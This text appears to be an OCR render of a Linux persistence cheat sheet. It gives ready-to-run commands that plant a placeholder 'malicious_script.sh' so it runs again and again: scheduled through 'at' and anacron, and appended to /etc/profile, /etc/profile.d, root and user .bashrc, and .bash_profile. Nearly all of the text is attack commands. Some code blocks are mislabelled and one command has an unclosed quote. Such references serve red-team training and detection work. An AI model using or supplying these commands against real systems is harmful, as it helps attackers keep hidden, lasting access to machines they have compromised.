 # Scheduled Job Persistence Using `at` Command

#### Use `at` for Scheduled Persistence
- **List All Scheduled `at` Jobs:**
	```bash
	atq
	```
- **Schedule One-Time Task Using `at`:**
	```bash
	echo "/path/to/malicious_script.sh" | at now + 1 minute
	```

#### Use `anacron` for Persistence
- **Create Daily Persistent Task with `anacron`:**
	```bash
	sudo bash -c 'echo "1 5 persistent_task /path/to/malicious_script.sh" >> /etc/anacrontab'
	```

# Bash Profile/RC Persistence
Bash profile files (`~/.bash_profile`, `~/.bashrc`, `~/.profile`) execute commands every time a user logs in. Modifying these files with malicious commands ensures persistence whenever the user logs into their shell.

#### Add Script to `/etc/profile`
- **Add Script to `/etc/profile`:**
	```cypher
	echo "/path/to/malicious_script" >> /etc/profile
	sudo bash -c 'echo "/path/to/malicious_script.sh" >> /etc/profile
	```

#### Add Script to `/etc/profile.d/`
- **Add a Script to `/etc/profile.d/`:**
	```bash
	sudo bash -c 'echo "/path/to/malicious_script.sh" > /etc/profile.d/persistent.sh'
	sudo chmod +x /etc/profile.d/persistent.sh
	```

#### Add Script to `.bashrc` (for a specific user)
- **Add Script to User `.bashrc`, Execute Every Shell Start:**
	```cypher
	echo "/path/to/malicious_script" >> /home/<username>/.bashrc
	```
- **Add Script to Root `.bashrc`, Execute Every Shell Start:** Requires root privileges
	```bash
	echo "/path/to/malicious_script.sh" >> /root/.bashrc
	```

#### Modify User Login Script
- **Add Script to `.bash_profile`:**
	```cypher
	echo "/path/to/malicious_script.sh" >> ~/.bash_profile
	```
